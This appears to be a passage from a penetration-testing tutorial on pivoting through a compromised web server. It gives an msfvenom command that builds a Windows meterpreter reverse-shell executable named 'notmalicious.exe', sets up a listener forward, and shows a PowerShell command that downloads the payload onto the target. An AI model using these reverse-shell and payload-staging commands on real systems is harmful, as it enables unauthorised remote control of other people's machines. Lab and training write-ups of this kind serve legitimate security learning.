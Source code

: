 ![](8.png)

Now in order to catch a reverse shell, your payload needs to be directed to the IP and port of the machine where the listener is created. 

Here is a sample payload with msfvenom that showcases this:

```shell
# IP of the compromised web server and port of the listener we created.

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.15 LPORT=1234 -f exe -o notmalicious.exe

```

Since that traffic is forwarded to port 4444 on our machine we can start up Metasploit and listen on that port in order to catch the connection from the shell.

But wait... How do we get our payload on the compromised host in the first place?

### File Transfers

In order to transfer files, I recommend adding another to listener in order to keep things separate. This is also good in case you have remote code execution and have already used the first listener for a PowerShell reverse shell for example.

```shell

# Listener on the compromised web server at port 1235 forwarding traffic to port 8000.
# You can use any port you like, in our example I'm using port 8000 as it's the default port for a python HTTP server.

listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8000

```

You can use `listener_list` to see all the listeners that have been added.

Now you can start a python server in the folder where your payload is and pull the file onto the host. 

```PowerShell

Invoke-WebRequest -Uri "http://172.16.5.15:1235/notmalicious.exe" -OutFile notmalicious.exe

```

![](9.png)
